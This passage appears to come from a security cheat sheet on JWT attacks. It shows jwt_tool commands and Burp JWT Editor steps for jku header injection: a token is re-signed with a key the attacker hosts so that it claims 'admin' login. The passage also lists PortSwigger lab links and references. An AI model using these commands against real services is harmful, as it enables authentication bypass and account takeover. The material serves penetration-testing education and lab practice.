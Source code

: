 **Exploit**:

* Using [ticarpi/jwt_tool]
    ```ps1
    python3 jwt_tool.py JWT_HERE -X s
    python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
    ```
* Using [portswigger/JWT Editor](#)
    1. Generate a new RSA key and host it
    2. Edit JWT's data
    3. Replace the `kid` header with the one from your JWKS
    4. Add a `jku` header and sign the JWT (`Don't modify header` option should be checked)

**Deconstructed**:

```json
{"typ":"JWT","alg":"RS256", "jku":"https://example.com/jwks.json", "kid":"id_of_jwks"}.
{"login":"admin"}.
[Signed with new Private key; Public key exported]
```


## Labs 

* [JWT authentication bypass via unverified signature](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)
* [JWT authentication bypass via flawed signature verification](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)
* [JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)
* [JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)
* [JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)
* [JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)

## References

- [5 Easy Steps to Understanding JSON Web Token](https://medium.com/cyberverse/five-easy-steps-to-understand-json-web-tokens-jwt-7665d2ddf4d5)
- [Attacking JWT authentication - Sep 28, 2016 - Sjoerd Langkemper](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)
- [Club EH RM 05 - Intro to JSON Web Token Exploitation - Nishacid](https://www.youtube.com/watch?v=d7wmUz57Nlg)
- [Critical vulnerabilities in JSON Web Token libraries - March 31, 2015 - Tim McLean](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries//)
- [Hacking JSON Web Token (JWT) - Hate_401](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)
- [Hacking JSON Web Tokens - From Zero To Hero Without Effort - Websecurify Blog](https://web.archive.org/web/20220305042224/https://blog.websecurify.com/2017/02/hacking-json-web-tokens.html)
- [Hacking JSON Web Tokens - medium.com Oct 2019](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
- [HITBGSEC CTF 2017 - Pasty (Web) - amon (j.heng)](https://nandynarwhals.org/hitbgsec2017-pasty/)
- [How to Hack a Weak JWT Implementation with a Timing Attack - Jan 7, 2017 - Tamas Polgar](https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9)
- [JSON Web Token Validation Bypass in Auth0 Authentication API - Ben Knight Senior Security Consultant - April 16, 2020](https://insomniasec.com/blog/auth0-jwt-validation-bypass)
- [JSON Web Token Vulnerabilities - 0xn3va](https://0xn3va.gitbook.io/cheat-sheets/web-application/json-web-token-vulnerabilities)
- [JWT Hacking 101 - TrustFoundry - Tyler Rosonke - December 8th, 2017](https://trustfoundry.net/jwt-hacking-101/)
- [Learn how to use JSON Web Tokens (JWT) for Authentication - @dwylhq](https://github.com/dwyl/learn-json-web-tokens)